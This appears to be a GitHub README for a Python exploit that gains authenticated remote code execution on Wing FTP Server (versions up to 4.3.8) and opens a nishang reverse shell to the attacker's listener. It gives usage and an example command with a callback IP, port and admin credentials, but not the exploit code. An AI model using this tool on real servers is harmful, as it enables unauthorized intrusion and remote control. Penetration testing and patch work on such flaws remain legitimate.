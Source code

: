 # Wing FTP RCE - Authenticated
This is an exploit written in Python3 for the Wing FTP Server running on Windows. This exploit requires Wing FTP's admin panel authentication.

## Tested versions
<=4.3.8

## About the vulnerability
This exploit was discovered by Alex Haynes.

## How to run:
This exploit will invoke a nishang tcp reverse shell on the target. Start your listener before executing.

#Usage:
```
wingrce.py <TARGET> <TARGET_PORT> <LOCAL_IP> <LOCAL_PORT> <USER> <PASSWORD>
```
#Example:
```
wingrce.py 0.0.0.0 8000 127.0.0.1 9001 notcos coolpass
```
